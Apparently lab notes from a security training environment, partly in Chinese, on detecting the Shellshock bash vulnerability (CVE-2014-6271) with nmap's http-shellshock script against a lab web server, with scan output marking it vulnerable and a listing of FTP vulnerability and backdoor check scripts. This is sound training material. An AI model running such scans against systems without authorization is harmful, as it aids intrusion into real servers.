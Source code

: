 `http://192.126.145.3/gettime.cgi`

[CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)


```
root@attackdefense:~# ls -al /usr/share/nmap/scripts/ | grep shellshock                      
-rw-r--r-- 1 root root  5551 Jan  9  2019 http-shellshock.nse
```

[Script http-shellshock](https://nmap.org/nsedoc/scripts/http-shellshock.html)

尝试利用 Web 应用程序中的“shellshock”漏洞（CVE-2014-6271 和 CVE-2014-7169）。

为了检测这个漏洞，脚本执行一个打印随机字符串的命令，然后尝试在响应主体中找到它。使用此方法不会检测到不打印回信息的 Web 应用程序。

默认情况下，脚本会在 HTTP 标头 User-Agent、Cookie 和 Referer 中注入负载。

```
root@attackdefense:~# nmap -sV -p 80 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 192.126.145.3
Starting Nmap 7.70 ( https://nmap.org ) at 2023-03-30 21:21 IST
Nmap scan report for target-1 (192.126.145.3)
Host is up (0.000045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
|_http-server-header: Apache/2.4.6 (Unix)
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known as Shellshock. It seems the server
|       is executing commands injected via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
MAC Address: 02:42:C0:7E:91:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.50 seconds
```

```
root@attackdefense:~# nmap -sV -p 80 --script http-shellshock --script-args uri=/gettime.cgi 192.126.145.3
```

```
root@attackdefense:~# ls -al /usr/share/nmap/scripts/ | grep ftp
-rw-r--r-- 1 root root  4530 Jan  9  2019 ftp-anon.nse
-rw-r--r-- 1 root root  3253 Jan  9  2019 ftp-bounce.nse
-rw-r--r-- 1 root root  3108 Jan  9  2019 ftp-brute.nse
-rw-r--r-- 1 root root  3258 Jan  9  2019 ftp-libopie.nse
-rw-r--r-- 1 root root  3295 Jan  9  2019 ftp-proftpd-backdoor.nse
-rw-r--r-- 1 root root  3748 Jan  9  2019 ftp-syst.nse
-rw-r--r-- 1 root root  6007 Jan  9  2019 ftp-vsftpd-backdoor.nse
-rw-r--r-- 1 root root  5943 Jan  9  2019 ftp-vuln-cve2010-4221.nse
-rw-r--r-- 1 root root  5678 Jan  9  2019 tftp-enum.nse
```
